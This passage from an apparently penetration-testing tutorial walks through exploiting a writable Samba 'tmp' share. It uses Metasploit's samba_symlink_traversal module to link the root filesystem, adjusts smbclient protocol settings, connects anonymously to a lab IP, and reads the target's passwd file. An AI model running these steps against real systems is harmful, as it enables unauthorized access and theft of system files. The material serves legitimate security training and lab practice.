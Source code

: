 #### Once we’ve determined a writeable share is available, in this case `“tmp,”` we can use Metasploit’s “samba\_symlink\_traversal” auxiliary module to create the symlink to the root filesystem.

```
use auxiliary/admin/smb/samba_symlink_traversal
```

![](<../../.gitbook/assets/image (294) (1) (1) (1).png>)

#### We can see from the above output, that a new “rootfs” directory has been created within the “tmp” share.

Our next step is to use “smbclient,” as we’ve seen from previous sections, to access the share, change into the “rootfs” directory, and download or upload files to the system where and if possible. We can do this with the following command:

edit `/etc/samba/smb.conf`

```
Add the following under global:
   client min protocol = CORE
   client max protocol = SMB3
```

```
smbclient \\\\192.168.13.29\\tmp -N
```

![](<../../.gitbook/assets/image (293) (1) (1).png>)

#### From here, we can simply use smbclient to change into the rootfs directory, and begin post exploitation, downloading/uploading files, etc. using the smbclient “get”

```
root@tester:~# cat passwd |less
```
